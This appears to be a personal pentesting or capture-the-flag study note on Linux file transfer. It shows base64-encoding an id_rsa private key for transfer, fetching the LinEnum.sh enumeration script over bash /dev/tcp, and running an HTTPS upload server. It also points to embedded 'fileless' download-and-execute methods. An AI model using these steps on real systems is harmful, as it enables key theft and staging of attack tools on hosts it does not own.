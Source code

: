 # Linux File Transfer

## Overview

What this technique is and when I need it

## Downloading

### Base64 Encoding

**Step 1:** Check the MD5 hash of the contents.
```bash
md5sum id_rsa
```

**Step 2:** Encode contents to base64 and copy it to clipboard.
```bash
cat id_rsa | base64 -w 0; echo
```

**Step 3:** On the second Linux machine, decode the Base64 file content.
```bash
echo -n 'encoded' | base64 -d > id_rsa
```

**Step 4:** Confirm the MD5 hash matches.
```bash
md5sum id_rsa
```

### wget

#### Method 1: Download

Download a file.
![[wget#^simple-download]]

#### Method 2: Download - Fileless

Download and execute a file in memory (fileless).
![[wget#^fileless-download]]

### cURL

#### Method 1: Download

Download a file.
![[curl#^simple-download]]

#### Method 2: Download - Fileless

Download and execute a file in memory (fileless).
![[curl#^fileless-download]]

### Bash

#### Method 1: /dev/tcp

**Step 1:** Connect to the target webserver.
```bash
exec 3<>/dev/tcp/10.10.10.32/80
```

**Step 2:** Send a HTTP GET request for the file.
```bash
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
```

**Step 3:** Print the response.
```bash
cat <&3
```

### SSH

#### Method 1: SCP

![[SCP#^download-file-from-linux]]

### Code
#### Method 1: Python

**Step 1:** Create a webserver
![[python#^python3-webserver]]

**Step 2:** Download a file.
![[python#^download-remote-file]]

#### Method 2: PHP

**Step 1:** Create a webserver.
![[PHP#^create-webserver]]

**Step 2:** Download a file.
![[PHP#^download-remote-file]]

#### Method 3: Ruby

**Step 1:** Create a webserver.
![[ruby#^create-webserver]]

**Step 2:** Download a file.
![[ruby#^download-remote-file]]

#### Method 4: Perl

**Step 1:** Create a webserver.
![[perl#^create-webserver]]

**Step 2:** Download a file.
![[perl#^download-remote-file]]


## Uploading

### HTTP

#### Method 1: uploadserver

**Step 1:** Create a Self-Signed Certificate
```bash
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```

**Step 2:** Start the webserver
```bash
mkdir www && cd www; sudo python3 -m uploadserver 443 --server-certificate ~/server.pem
```

**Step 3:** Upload files.
![[curl#^upload-multiple-files-insecure]]

### SSH

#### Method 1: SCP

![[SCP#^upload-file-to-linux]]

### Python

#### Method 1: uploadserver

**Step 1:** Start the webserver
![[python#^uploadserver]]

**Step 2:** Upload a file.
![[python#^upload-file]]

### Netcat

**Step 1:** On one Linux machine, open a listener to write the expected file data.
![[netcat#^receive-file-over-tcp]]

**Step 2:** On the other machine, send the file.
![[netcat#^send-file-over-tcp]]

### Ncat

**Step 1:** On one Linux machine, open a listener to write the expected file data.
![[Ncat#^receive-file-from-listener]]

**Step 2:** On the other machine, send the file.
![[Ncat#^send-file-to-listener]]



## Practical Examples

Real-world scenarios where I've used this

## Troubleshooting

- Common issues I've encountered
- Things that break this technique
- Environment-specific considerations

## Related Techniques

- [[Similar-Technique]] - How they differ
- [[Follow-up-Technique]] - What comes next

## CTF Examples

```dataview
TABLE file.name as "Box", choice(contains(file.tags, "easy"), "🟢", choice(contains(file.tags, "medium"), "🟡", "🔴")) as "Diff"
FROM "06-CTF-Writeups" AND #linux-file-transfer
SORT file.ctime DESC
LIMIT 5
```

## Learning Resources

- 

#linux-file-transfer #technique